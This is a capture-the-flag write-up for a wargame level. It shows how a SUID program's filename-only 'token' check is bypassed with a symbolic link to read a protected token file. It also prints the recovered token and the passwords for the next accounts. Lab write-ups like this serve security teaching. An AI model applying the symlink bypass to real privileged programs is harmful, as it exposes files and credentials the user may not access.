 # Level 08 - Bypassing File Access Restrictions

## Step 1: Examine available files

Let's check what files we have in the home directory:

```sh
ls -l
```

Output:
```
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

We see:
- An executable `level08` with SUID permissions (owned by flag08)
- A file named `token` that only flag08 can read

## Step 2: Understand the program

Running the program without arguments:

```sh
./level08
```

Output:
```
./level08 [file to read]
```

It seems the program is designed to read files.

## Step 3: Analyze the binary

Let's examine the strings in the binary:

```sh
strings level08
```

We see interesting output including:
```
%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
```

This suggests the program might be blocking access to files with "token" in the name.

## Step 4: Test our hypothesis with ltrace

Using `ltrace` to confirm this behavior:

```sh
ltrace ./level08 stoken
```

Output:
```
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("stoken", "token")                             = "token"
printf("You may not access '%s'\n", "stoken"You may not access 'stoken'
)         = 28
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

We can see that the program:
1. Uses `strstr()` to check if "token" is in the filename
2. Refuses to access files containing that string

Let's try a filename without "token":

```sh
ltrace ./level08 sdfsd
```

Output:
```
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("sdfsd", "token")                              = NULL
open("sdfsd", 0, 014435162522)                        = -1
err(1, 0x80487b2, 0xbffff903, 0xb7fe765d, 0xb7e3ebaflevel08: Unable to open sdfsd: No such file or directory
 <unfinished ...>
+++ exited (status 1) +++
```

Now it attempts to open the file but fails because it doesn't exist.

## Step 5: Understand the vulnerability

The vulnerability is that the program:
1. Checks the filename string to block access to files containing "token"
2. But doesn't check what the file actually points to

This is a classic example of insufficient input validation. We can bypass this by creating a symbolic link to the token file with a different name.

## Step 6: Test the program functionality

Let's confirm that the program reads and displays file content:

```sh
echo "test content" > /tmp/testfile
./level08 /tmp/testfile
```

Output:
```
test content
```

## Step 7: Exploit the vulnerability

We can create a symbolic link to the token file with a name that doesn't include "token":

```sh
ln -s ~/token /tmp/flag_access
```

Now we can use the program to read the token file via our symbolic link:

```sh
./level08 /tmp/flag_access
```

Output:
```
quif5eloekouj29ke0vouxean
```

## Step 8: Use the token to get the flag

Now that we have the token, we can switch to the flag08 user:

```sh
su flag08
Password: quif5eloekouj29ke0vouxean
```

And get the flag:

```sh
getflag
```

Output:
```
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

## Step 9: Proceed to next level

Now we can advance to level09:

```sh
su level09
Password: 25749xKZ8L7DkSCwJkT9dyv6f
```
